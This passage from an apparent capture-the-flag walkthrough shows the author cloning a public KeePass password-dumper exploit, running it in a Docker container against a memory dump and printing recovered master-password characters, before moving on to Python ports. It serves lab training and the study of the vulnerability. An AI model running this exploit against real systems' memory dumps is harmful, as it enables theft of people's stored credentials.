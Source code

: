 The `-v $(pwd):/data` will mount the current directory (where the dump is) into the container in `/data`. I’ll clone the exploit and go into that directory:

```

root@8af1c7b7c189:/# git clone https://github.com/vdohney/keepass-password-dumper
Cloning into 'keepass-password-dumper'...
remote: Enumerating objects: 111, done.
remote: Counting objects: 100% (111/111), done.
remote: Compressing objects: 100% (79/79), done.
remote: Total 111 (delta 61), reused 67 (delta 28), pack-reused 0
Receiving objects: 100% (111/111), 200.08 KiB | 4.55 MiB/s, done.
Resolving deltas: 100% (61/61), done.
root@8af1c7b7c189:/# cd keepass-password-dumper/
root@8af1c7b7c189:/keepass-password-dumper#

```

Now the exploit runs fine:

```

root@8af1c7b7c189:/keepass-password-dumper# dotnet run /data/KeePassDumpFull.dmp 
...[snip]...
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M, 
3.:     d, 
4.:     g, 
5.:     r, 
6.:     ø, 
7.:     d, 
8.:      , 
9.:     m, 
10.:    e, 
11.:    d, 
12.:     , 
13.:    f, 
14.:    l, 
15.:    ø, 
16.:    d, 
17.:    e, 
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde

```

That’s the same output as above.

#### Exploit with Python

Since the release of Keeper, many Python versions of this exploit have come out. I had a hard time finding one that worked as nicely as the DotNet version. For example, [this one](https://github.com/z-jxy/keepass_dump) will get most of the password:
